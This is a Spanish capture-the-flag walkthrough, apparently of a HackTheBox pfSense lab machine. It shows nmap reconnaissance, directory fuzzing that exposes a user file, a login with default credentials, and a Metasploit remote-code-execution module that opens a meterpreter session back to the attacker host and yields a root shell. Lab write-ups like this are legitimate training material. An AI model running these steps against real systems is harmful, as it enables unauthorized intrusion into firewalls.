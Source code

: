 ***Fase 1: Reconocimiento***
---------------------------------------------
Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 5000 -p- -Pn 10.10.10.60 -oN escaneo
```
![alt text](image.png)

Vemos que en el escaneo de puertos nos dice que está el puerto 80 abierto y que se redirige en el puerto 433. Así que vamos a ver que está corriendo por ese puerto.
![alt text](image-1.png)

Vemos que hay un panel de login, vamoss a intentar aplicar las credenciales por defecto de PFSense.
```
user: admin
password: pfsense
```
![alt text](image-2.png)

Como al probar estas credenciales no me ha logueado, he pensado en realizar un fuzzing web para ver si encuentar información que podamos usar para tal de acceder al panel de login.
```
dirsearch -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![alt text](image-7.png)

Vemos que hay un archivo llamado `system-users.txt`. Vamos a introducirlo en la dirección del sitio para ver que hay.
![alt text](image-3.png)

Este nos indica que tenemos un usuario específico con la contraseña por defecto.

***Fase 2: Explotación***
-------------------------
Ahora procederemos a iniciar sesión con las credenciales adquiridas.
```
user: rohit
password: pfsense
```
![alt text](image-4.png)

Tras buscar en google, he encontrado un posible RCE en el link --> https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/http/pfsense_graph_injection_exec.md

Seguiremos los pasos que nos indica:

```
msfconsole
```

```
use exploit/unix/http/pfsense_graph_injection_exec
```

```
set rhosts 10.10.10.60
```

```
set lhost 10.10.14.15
```

```
set username rohit
```

```
set password pfsense
```

```
exploit
```
![alt text](image-5.png)

***Fase 3: Intrusión***
---------------------
Una vez tenemos la sesión de meterpreter abierta introducieremos el siguiente comando para tener acceso a root.
```
shell
```
![alt text](image-6.png)

Como podemos ver, tenemos el control total del servidor y solo nos faltará encontrar las flags de usuario.